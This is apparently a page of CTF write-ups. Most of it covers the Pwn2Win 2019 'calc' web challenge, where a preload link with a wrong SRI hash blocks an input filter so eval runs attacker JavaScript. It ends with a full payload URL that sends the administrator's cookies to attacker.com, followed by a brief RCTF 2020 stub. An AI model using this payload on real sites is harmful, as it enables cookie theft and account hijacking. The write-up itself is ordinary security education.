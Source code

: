 Writeup from a beginner CTFer (but with plenty of Java experience).

Original writeup
(https://drive.google.com/file/d/1lzLa6el8UYTqKKhnegGpS4lN7Edl7EOo/view?usp=sharing).# Pwn2Win CTF 2019: calc

**Category:** Web  
**Points:** 500  
**Solves:** 0

> Our researchers found out a web interface used by Sophia to run complex
> calculations. Can you find a way to get the administrator's cookies?  
>  
> http://165.227.115.65/  
>  
> The administrator is using HeadlessChrome/79.0.3945.0.

## Write-up  
  
### How it works?

The challenge's website is concise and you don't have much to work on:

1. There is a place to report a link to the administrator (which must be prefixed with http://165.227.115.65/ - the challenge's IP).  
2. There is a `calc` parameter which is being filtered by an external script file (which is same-origin to the challenge's page) and then is being eval'd.  
3. There is a `xss` parameter that is being reflected at the end of the body.  
4. The server uses a strict CSP, which doesn't allow you to use the injection to do much.

### Digging deeper

By looking into the external script file, it is possible to notice that the
`calc` parameter is being filtered as soon as the DOM is loaded and only
numbers, +, - are being allowed. The length of characters is also limited to
100.

```javascript  
window.addEventListener('DOMContentLoaded', () => {  
   let regex = /[^0-9\+\-]+/;  
   if (calc.length > 100) calc = "1337";  
   calc = calc.replace(/ /g, "+");  
   if (regex.test(calc)) calc = "1337";  
});  
```  
Also, by checking the script on the main page, you can see the parameter is
only executed after the page is fully loaded - meaning that it will only be
eval'd after the external script has a chance to filter the input it got from
the `calc` parameter.

```javascript  
let calc = new URL(location).searchParams.get("calc") || "1337";  
onload = () => {  
   alert(eval(calc));  
}  
```

After this assessment, one of the realizations is that if you are able to
block the external script from loading, you can execute arbitrary javascript.

### Prior research

There has been some research on the subject of selectively blocking
subresources
(https://www.reddit.com/r/Slackers/comments/c1mpmq/selectively_blocking_subresources_when_xss/).

But none of these prior researches would work in the context of this
challenge.

The intended solution required you to find a way to block subresources that
were being loaded after the injection point by only using HTML injection.

### Features created for good (or bad)

Before Chrome 77, it was not possible to do the preload of subresources that
did an SRI verification without doing a double download of the same resource.

On Chrome 77, a new feature
(https://www.chromestatus.com/feature/4967277059375104) was released which
started allowing and honoring the integrity attribute on preload links.

It solved the problem of the double download, but created a new "problem" - if
the hash on the integrity attribute doesn't match the real hash of the
subresource, it will be blocked from loading :)

### Payload

Knowing that it gets easy to construct a payload that will allow executing
arbitrary javascript and stealing the administrator's cookies:

```  
http://165.227.115.65/?xss=<link+rel=preload+as=script+integrity=sha256-1+href=filter.js>&calc=location=`//attacker.com/?${document.cookie}`  
```

## Flag

```CTF-BR{s3l3c71v3_bl0ck1ng++}```

## Contact

If you have any questions feel free to contact me on
[@lbherrera_](https://twitter.com/lbherrera_)  

Original writeup
(https://github.com/lbherrera/writeups/tree/master/pwn2win-2019/calc).TL;DR bypass numeric only WAF via string coercion and bitwise operators, solve
readflag via previously known ways.

Full description available in the writeup!

Original writeup (https://waituck.sg/2020/06/10/rctf-2020-calc-writeup.html).